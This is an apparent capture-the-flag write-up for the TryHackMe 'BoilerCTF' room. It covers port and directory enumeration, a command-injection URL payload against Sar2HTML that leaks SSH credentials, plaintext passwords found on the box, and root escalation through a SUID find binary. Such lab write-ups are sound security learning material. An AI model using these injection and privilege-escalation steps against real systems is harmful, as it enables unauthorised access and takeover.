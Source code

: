 # 29 - BoilerCTF

Room Link --> [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.62.87 -sV -Pn -n -p- -T5 -vv

PORT      STATE SERVICE          REASON
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http             syn-ack ttl 63
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
{% endcode %}

#### FTP enumeration

```
ftp 10.10.62.87
ftp> ls -al
229 Entering Extended Passive Mode (|||44125|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt

┌──(dking㉿dking)-[~/Downloads]
└─$ cat .info.txt           
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

#### Port 10000 (webmin)

Seems webmin is running on https --> [https://10.10.62.87:10000/](https://10.10.62.87:10000/)

Checking google and Webmin version 1.930 is not vulnerable, so we can't exploit that.

Enumerating with gobuster and discovered a CMS.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87 -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,db,ini -t 500 2>/dev/null

# outputs.
/joomla               (Status: 301) [Size: 311] [--> http://10.10.62.87/joomla/]
/manual               (Status: 301) [Size: 311] [--> http://10.10.62.87/manual/]
/robots.txt           (Status: 200) [Size: 257]
```
{% endcode %}

Navigating to --> [http://10.10.62.87/joomla/](http://10.10.62.87/joomla/) and started looking around.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

More enumeration with gobuster.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87/joomla/ -w /usr/share/dirb/wordlists/common.txt -t 500 2>/dev/null

# outputs
/_test                
/~www                 
/_archive             
/bin                  
/build                
/cache                
/components           
/images               
/includes             
/index.php            
/installation         
/language             
/layouts              
/libraries            
/media                
/modules              
/plugins              
/templates            
/tests                
/tmp                  
/_database            
/_files               
/administrator
```
{% endcode %}

**http://10.10.140.202/joomla/\_test/**

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-MrxP7-ZrTNQ/YJwO4lHCbhI/AAAAAAAAv-w/r1vH82TtD4Idhc4F7JmOF1rEK0jnRV_9QCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Searching for exploit on the Web, there seemed to be a [**Remote Code Execution vulnerability**](https://www.exploit-db.com/exploits/47204) in the Sar2HTML.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-nTPVdm9XrU0/YJwPBwVm4aI/AAAAAAAAv-0/Gq3EaR5ULPEgwDlSyzljRs-3rKh7i6YZgCLcBGAsYHQ/s16000/9.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Reading the [exploit](https://www.exploit-db.com/exploits/47204), it seemed that the plot parameter is injectable and when the command is entered, the output of the command can be viewed in the Select Host Drop Down option.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-BvbO2WsVUes/YJwPGq_khzI/AAAAAAAAv-4/n5l9RyNXEQcOjPTtUmS5h6HuM6R34UbhwCLcBGAsYHQ/s16000/10.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

#### **Exploitation**

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's wordking, we can list al files. The file is "log.txt".

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

> http://10.10.72.60/joomla/\_test/index.php?plot=;cat log.txt

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*QFXboajcwZk7Q-tM4kXksA.png" alt="" height="367" width="700"><figcaption></figcaption></figure>

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@\$$**

### Initial Access

Login to ssh with the credentials.

```
ssh basterd@10.10.62.87
```

And we got in.

The other user's password was stored in "backup.sh" file.

```
USER=stoner
#superduperp@$$no1knows
```

### Priv Esc to Stoner

```bash
su stoner # enter the password.

find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null

# and we saw the "/usr/bin/find" binary.
/usr/bin/find . -exec /bin/sh -p \; -quit

# and got root.
```

